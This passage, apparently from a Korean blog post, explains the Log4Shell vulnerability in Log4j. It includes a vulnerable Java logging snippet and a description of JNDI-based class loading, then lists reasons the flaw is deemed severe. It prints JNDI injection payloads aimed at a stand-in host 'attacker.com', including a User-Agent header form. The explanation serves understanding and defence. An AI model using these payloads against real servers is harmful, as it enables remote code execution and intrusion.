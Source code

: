 ```java
    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```



-----

## JNDI를 이용한 공격

JNDI란 Java Naming and Directory Interface의 약자로 보통 분산시스템에서 다른 리소스를 가져오는데 사용할 수 있다.

다른 리소스의 예로 자바 클래스 등에서 공격자가 이 경로를 자신의 서버로 지정하면 취약점이 있는 서버가 공격자의 서버에서 클래스를 다운받는 것이다.

이렇게 공격자의 서버에서 클래스를 다운받아 코드를 실행하게 된다.



예를들어 다음과 같은 로그 라인이 서버 어플리케이션에 존재한다고 하자.

```java
log.info("Debug: {}", payload);	
```

여기서 payload는 HTTP Requests에서 요청자가 보낸 문자열이다.

이 문자열이 `${jndi:ldap://attacker.com/classname}`을 포함하면 Log4j는 이를 해석하여 `ldap://attacker.com/classname`을 실행시키게 된다.

현재 가장 쉽게 공격할 수 있는 방법은 HTTP 헤더 **User-Agent**에 ldap주소를 넣어 코드를 다운받는 방법이라고 한다.

```
User-Agent : ${jndi:ldap://<host>:<port>/<path>}
```

물론 User-Agent 헤더 뿐만 아니라, HTTP Request에게서 받은 문자열을 로깅하는 경우 어디서든지 지정한 문자열을 로깅하기만 하면 취약점에 노출되어 있다.



-----

## Log4Shell 취약점은 사상 최악의 취약점?

Log4Shell의 취약점은 RCE취약점으로 취약점 중에서도 심각한 단계의 취약점으로 분류된다.

하지만 그 외에도 아래와 같은 점들 때문에 **사상 최악의 취약점**이라고 불려지고 있다.

1. Log4j는 자바 기반의 소프트웨어에서 굉장히 많이 쓰여지고 있는 라이브러리이다. **=> 공격 대상/범위가 광범위하다.**
2. 공격 방법이 간단하다. **=> 복잡한 과정없이 POC코드를 전송하기만 하면 공격이 성공한다.**
3. 하나의 소프트웨어는 여러개의 소프트웨어가 조합되어 만들어지는데, 그중 한곳에서라도 Log4j를 사용하게 되면, 해당 소프트웨어는 취약하다. **=> Attack Vctor가 다양하다.**
4. 내 서버가 이미 공격을 당했는지 분석하기 위해서는 Log4j를 사용한 시점부터 분석해야 한다. **=> 오랫동안 방치된 취약점으로 피해 범위 파악이 어렵다.**
   - 해당 취약점은 Log4j 2.0-beta9에서 추가된 기능에서 발견되었는데, 이는 약 8년전 업데이트이다.
